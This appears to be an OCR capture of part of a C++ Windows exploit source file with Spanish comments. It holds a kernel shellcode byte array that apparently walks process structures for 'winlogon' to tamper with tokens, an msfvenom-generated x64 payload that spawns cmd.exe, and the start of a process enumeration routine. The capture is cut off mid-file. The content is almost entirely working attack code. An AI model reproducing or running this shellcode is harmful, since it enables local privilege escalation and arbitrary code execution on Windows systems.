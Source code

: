 ```cpp
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>
#include <ktmw32.h>

#pragma comment(lib,"KtmW32.lib")

// buffer que vamos a asignar para que el kernel lo ejecute
char KernelShellcode[] = {
	0x90, 0x65, 0x4C, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 
	0x4D, 0x8B, 0x80, 0x20, 0x02, 0x00, 0x00, 0x4C, 0x89, 0xC1, 
	0x4D, 0x8B, 0x80, 0x48, 0x04, 0x00, 0x00, 0x49, 0x81, 0xE8, 
	0x48, 0x04, 0x00, 0x00, 0x41, 0x81, 0xB8, 0xA8, 0x05, 0x00, 
	0x00, 0x77, 0x69, 0x6E, 0x6C, 0x75, 0xE5, 0x49, 0x83, 0xE8, 
	0x30, 0x4D, 0x8B, 0x40, 0x28, 0x49, 0x83, 0xE0, 0xF0, 0x41, 
	0xC6, 0x40, 0x48, 0x0B, 0x48, 0x8B, 0x89, 0xB8, 0x04, 0x00, 
	0x00, 0x48, 0x83, 0xE1, 0xF0, 0xC6, 0x81, 0xD4, 0x00, 0x00, 
	0x00, 0x00, 0x90, 0xC3, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};


// 280 bytes
// EXITFUNC=thread
// msfvenom -p windows/x64/exec CMD=cmd.exe -f raw EXITFUNC=thread
unsigned char pPayload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00,
	0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2,
	0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48,
	0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7,
	0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C,
	0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52,
	0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
	0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01,
	0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 0x40, 0x20, 0x49,
	0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34,
	0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0,
	0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1,
	0x75, 0xD8, 0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0,
	0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
	0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41,
	0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0,
	0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF,
	0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00, 0x00, 0x00,
	0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00,
	0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xE0,
	0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80,
	0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A,
	0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x6D, 0x64,
	0x2E, 0x65, 0x78, 0x65, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};

bool ProcessEnum(const wchar_t* wcProcess, DWORD* ProcId) {

	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (hSnapshot == INVALID_HANDLE_VALUE) {
		printf("\n[ERROR GETTING \"hSnapshot\"] -> %d\n", GetLastError());
		return false;
	}
```